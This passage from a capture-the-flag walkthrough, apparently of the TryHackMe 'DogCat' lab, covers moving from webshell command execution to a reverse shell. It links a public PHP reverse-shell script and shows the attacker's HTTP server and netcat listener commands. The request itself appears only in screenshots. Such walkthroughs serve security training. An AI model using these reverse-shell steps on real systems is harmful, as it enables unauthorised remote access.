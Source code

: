 This time I tried a webshell like command:

<p align="center"><img src="./files/burp4.png"></p>

Great! Now we can execute commands.

## Reverse Shell

Now that we can execute commands, we can upload a php reverse shell which you can get [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) and get a shell. First I started a server and set up a listener and then sent the following request.

Server:
~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/DogCat/files]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~

Listener:
~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/DogCat]
└─$ rlwrap nc -lvnp 1234
listening on [any] 1234 ...
~~~

<p align="center"><img src="./files/burp5.png"></p>

